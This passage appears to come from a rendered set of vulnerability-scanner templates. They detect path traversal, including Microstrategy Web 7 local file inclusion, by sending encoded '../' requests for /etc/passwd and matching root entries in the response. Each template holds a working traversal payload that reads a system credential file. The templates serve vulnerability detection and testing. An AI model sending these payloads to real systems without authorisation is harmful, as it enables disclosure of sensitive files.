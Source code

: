 - Method - GET

### URL

- {{BaseURL}}/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd

### Matchers

**Type - regex**

- regex
  1. root:[x*]:0:0

**Type - status**

- status
  1. 200

---

# Microstrategy Web 7 - Local File Inclusion

## Description

- Microstrategy Web 7 is vulnerable to local file inclusion via "/WebMstr7/servlet/mstrWeb" (in the parameter subpage). Remote authenticated users can bypass intended SecurityManager restrictions and list a parent directory via a /.. (slash dot dot) in a pathname used by a web application. NOTE: this is a deprecated product.

- severity - medium
- tags - traversal,edb,packetstorm,cve,cve2018,microstrategy,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/WebMstr7/servlet/mstrWeb?evt=3045&src=mstrWeb.3045&subpage=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---
